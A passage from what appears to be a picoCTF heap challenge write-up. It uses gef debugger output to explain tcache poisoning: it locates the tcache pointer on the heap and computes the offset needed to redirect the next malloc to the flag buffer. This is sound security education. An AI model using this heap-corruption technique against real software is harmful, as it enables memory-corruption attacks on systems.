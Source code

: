 ```
    [0x0000000000603d30     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x603d30, size=0x1f2e0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins tcache 
────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────────
Tcachebins[idx=7, size=0x90] count=1  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
```
Only the buffer with the flag remains in tcache as the one without the flag is `malloc`'d.

## Attack
Back to the attack. At the final `malloc`, the last chunk of the last `free`d would be used as the tcache implementation, which is why we're getting part of `local_88`. We need the heap manager to give us another chunk of memory - the one with the flag. So if we can make the linked list of tcache points to the flag buffer, it will be used during the next `malloc`, and the content will be printed.

Since we can sort of write anything to any address, first find where to write, which should be the one pointing to the chunk without the flag. Break after the two `free`s and check the tcache.

*NOTE: this is another run of the binary*
```
gef➤  heap chunks
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 02 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 a3 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602490     70 69 63 6f 43 54 46 7b 74 65 73 74 5f 66 6c 61    picoCTF{test_fla]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE)
    [0x00000000006034a0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
    [0x0000000000603800     00 00 00 00 00 00 00 00 21 20 59 6f 75 72 20 66    ........! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)
    [0x0000000000603890     00 38 60 00 00 00 00 00 68 69 73 20 77 6f 6e 27    .8`.....his won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)
    [0x0000000000603920     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins tcache
────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────────
Tcachebins[idx=7, size=0x90] count=2  ←  Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
```
Find `0x603890` in the memory
```
gef➤  search-patter 0x603890
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]" 
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rw-
  0x7fffffffd530 - 0x7fffffffd53c  →   "\x90\x38\x60[...]" 
  0x7fffffffd920 - 0x7fffffffd92c  →   "\x90\x38\x60[...]"
```
We need the one on the heap, `0x602088`. The offset from `local_a0` (the first of seven consecutive `malloc`s, which is `0x6034a0`) is `-5144`. So the "Address:" part will be this number.